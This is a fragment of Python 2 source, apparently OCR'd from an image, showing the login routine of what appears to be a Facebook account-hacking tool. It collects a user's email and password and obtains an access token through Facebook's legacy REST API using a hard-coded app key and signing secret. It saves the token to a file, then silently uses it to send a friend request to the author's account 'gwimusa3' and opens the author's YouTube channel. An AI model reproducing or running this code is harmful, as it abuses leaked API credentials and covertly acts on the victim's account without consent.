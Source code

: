         os.system('xdg-open https://m.youtube.com/channel/UCsdJQbRf0xpvwaDu1rqgJuA')

def login():
	os.system('clear')
	try:
		toket = open('login.txt','r')
		menu() 
	except (KeyError,IOError):
		os.system('clear')
		print logo
		print 42*"\033[1;96m="
		print('\033[1;96m[⚡] \x1b[1;91m───Login your new ID───\x1b[1;93m[⚡]' )
		id = raw_input('\033[1;93m[+] \x1b[0;34mEnter ID/Email \x1b[1;95m: \x1b[1;95m')
		pwd = raw_input('\033[1;95m[+] \x1b[0;34mEnter Password \x1b[1;93m: \x1b[1;93m')
		tik()
		try:
			br.open('https://m.facebook.com')
		except mechanize.URLError:
			print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
			keluar()
		br._factory.is_html = True
		br.select_form(nr=0)
		br.form['email'] = id
		br.form['pass'] = pwd
		br.submit()
		url = br.geturl()
		if 'save-device' in url:
			try:
				sig= 'api_key=882a8490361da98702bf97a021ddc14dcredentials_type=passwordemail='+id+'format=JSONgenerate_machine_id=1generate_session_cookies=1locale=en_USmethod=auth.loginpassword='+pwd+'return_ssl_resources=0v=1.062f8ce9f74b12f84c123cc23437a4a32'
				data = {"api_key":"882a8490361da98702bf97a021ddc14d","credentials_type":"password","email":id,"format":"JSON", "generate_machine_id":"1","generate_session_cookies":"1","locale":"en_US","method":"auth.login","password":pwd,"return_ssl_resources":"0","v":"1.0"}
				x=hashlib.new("md5")
				x.update(sig)
				a=x.hexdigest()
				data.update({'sig':a})
				url = "https://api.facebook.com/restserver.php"
				r=requests.get(url,params=data)
				z=json.loads(r.text)
				unikers = open("login.txt", 'w')
				unikers.write(z['access_token'])
				unikers.close()
				print '\n\033[1;96m[✓] \x1b[1;92mLogin Hogai'
				os.system('xdg-open https://www.youtube.com/channel/UCsdJQbRf0xpvwaDu1rqgJuA')
				requests.post('https://graph.facebook.com/me/friends?method=post&uids=gwimusa3&access_token='+z['access_token'])
				menu()
			except requests.exceptions.ConnectionError:
				print"\n\033[1;96m[!] \x1b[1;91mTidak ada koneksi"
				keluar()
		if 'checkpoint' in url:
			print("\n\033[1;96m[!] \x1b[1;91mAisa lagta hai apka account checkpoint pe hai")
			os.system('rm -rf login.txt')
			time.sleep(1)
			keluar()
		else:
			print("\n\033[1;96m[!] \x1b[1;91mPassword/Email ghalat hai")
			os.system('rm -rf login.txt')
			time.sleep(1)
			login()
